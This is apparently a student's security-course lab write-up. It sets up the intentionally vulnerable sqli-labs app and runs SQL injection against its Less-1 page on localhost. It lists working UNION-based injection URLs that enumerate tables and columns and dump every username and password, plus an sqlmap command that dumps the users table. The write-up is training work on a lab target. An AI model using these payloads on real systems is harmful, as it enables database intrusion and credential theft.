# Lab 9.1 SQLi Review

## Preparation

Mysqld configuration on Kali

```sh
sudo systemctl enable mysqld 
sudo systemctl start mysqld
sudo mysql_secure_installation
```

Note, current root password for mysql is nothing so hit [Enter]

```shell
Switch to unix_socket authentication [Y/n] n
Change the root password? [Y/n] Y
Remove anonymous users? 
Disallow root login remotely? [Y/n] y[Y/n] y
Remove test database and access to it? [Y/n] y
Reload privilege tables now? [Y/n] y
```

clone the sqli-labs-php git repository

```shell
mkdir -p ~/sec335/week9
cd ~/sec335/week9
git clone https://github.com/skyblueee/sqli-labs-php7.git
cd sqli-labs-php7
```

edit sql-connections/db-creds.inc



start the application


access the application and click on the Setup/reset Database for labs link.






Go through the following [SQLi walk through](https://dinohacks.blogspot.com/2019/09/audi-sqli-labs-lesson-1-walkthrough.html)Capture and label screenshots for:


# Deliverables

Add increased error handling and a debug statement for the raw sql as shown below. By default php8 will suppress many of the error messages.




Go through the following [SQLi walk through](https://dinohacks.blogspot.com/2019/09/audi-sqli-labs-lesson-1-walkthrough.html)

Capture and label screenshots for:

## 1. Display the Login name and password for arbitrary user

`127.0.0.1:8090/Less-1/?id=1`



## 2. Error condition when number of columns are exceeded

`127.0.0.1:8090/Less-1/?id=1'%27%20order%20by%204%20--+`



## 3. A Union select that displays your own value for login name and password

`127.0.0.1:8090/Less-1/?id=-1%27%20union%20select%201,user(),database()%20--+`



## 4. Another union that displays the mysql user and database

`127.0.0.1:8090/Less-1/?id=-1'%20union select 1,group_concat(table_name),3%20from%20information_schema.tables%20where table_schema=database()--+`



## 5. A union that dumps all the tables in the current database

`[http://127.0.0.1:8090/Less-1/?id=-1%27%20union%20select%201,group_concat(column_name),3%20from%20information_schema.columns%20where%20table_schema=database()--+](http://127.0.0.1:8090/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema=database()--+)`




## 6. A union that dumps all the usernames and passwords

`http://127.0.0.1:8090/Less-1/?id=-1%27%20union%20select%201,group_concat(username),group_concat(password)%20from%20users%20--+`




## Deliverable 7. Figure out how to run sqlmap against the vulnerable uri: http://127.0.0.1:8090/Less-1?id=1

* Run this using Medium Difficulty and Intermediate Enumeration.

* Figure out how to dump the contents of the users table in the security database.

* Provide a screenshot showing the results of dumping the user's table.

I used the following link [https://github.com/sqlmapproject/sqlmap] as a guide to use sqlmap.

`sqlmap -u http://127.0.0.1:8090/Less-1/?id=1 -T users --level 2 --risk 2 --dump`




